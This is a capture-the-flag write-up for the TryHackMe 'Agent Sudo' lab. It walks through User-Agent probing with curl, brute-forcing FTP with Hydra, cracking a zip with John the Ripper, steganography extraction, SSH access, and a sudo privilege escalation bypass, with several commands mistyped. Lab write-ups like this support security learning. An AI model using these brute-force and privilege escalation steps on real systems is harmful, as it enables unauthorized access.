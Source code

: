 ```yaml
---
title: Agent Sudo
premalink: /agentSudo
---
```

# ![front](images/agentsudo/front.png)
[https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)

## Open Ports:
  - 21: ftp
  - 22: ssh
  - 80: HTTP
  
## Port 80:
1. **Index Page**
![1](/images/agentsudo/1.png)
  - we can brute force different Agents
    >Curl "http://ip" -H "User-Agent: A" -L
		>Curl "http://ip" -H "User-Agent: B" -L
		>Curl "http://ip" -H "User-Agent: C" -L
![2](/images/agentsudo/2.png)

## Port 21:
1. Brute force ftp using **Hydra**  to find the _password_
  >hydra -l cxxxx -P /rockyou.txt ftp://ip
![3](/images/agentsudo/3.png)
2. After logging we will find 3 files _(1 txt, 2 imgs)_
  - binwalk the image we find a zip file inside the image
  - As the zip file is password protected we can use **johnTheRipper** to crack it.
    >John2zip 8072.zip > hash.txt
    >	John hash.txt --wordlist=/rockyou.tx
![4](/images/agentsudo/4.png)
 3. Now we find a text file for Agent R
  - It has the passwd in base64
    >echo " " |base64-d (Area51)
 4. Extracting cute-alien.jpeg file using the password found in **To_AgentR.txt*
    >steghide extract -sf cute-alien.jpeg
![5](/images/agentsudo/5.png)

   
## Gaining Access:
 **We Found username and password in _message.txt_**
 1. Logging in via ssh
 
### USER Flag:
![user](/images/agentsudo/user.png)
2.Download the image 
  >scp james@ip:/home/james/image.jpeg .
  - Now search in the web (_use google image search_)
 


## Privilege Escalation:
 1. sudo -l
   - [All,!root] /bin/bash
   **To bypass this**
    >sudo #u-1 /bin/bash

### Root Flag:
![root](/images/agentsudo/root.png)
